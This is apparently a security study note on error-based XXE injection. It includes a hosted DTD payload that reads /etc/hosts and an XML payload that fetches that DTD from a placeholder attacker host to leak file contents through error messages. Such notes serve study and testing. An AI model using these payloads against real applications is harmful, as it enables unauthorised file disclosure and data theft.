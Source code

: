 If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

First, we will host a DTD file that contains the following payload:
```dtd
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%entity;/%file;'>">
```
Open up a web server using Python to host the file, then call our DTD script as part of the payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:OUR_PORT/xxe.dtd">
  %remote;
  %error;
]>
<root>
	<name>&entity;</name>
</root>
```
This method may also be used to read source files. However, it is not as reliable as the [CDATA technique](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FXXE%20Injection%2FCommon%20XXE%20Attacks%2FAdvanced%20FIle%20Disclosures%2FAdvanced%20Exfiltration%20with%20CDATA) due to length limitations or certain special characters breaking it.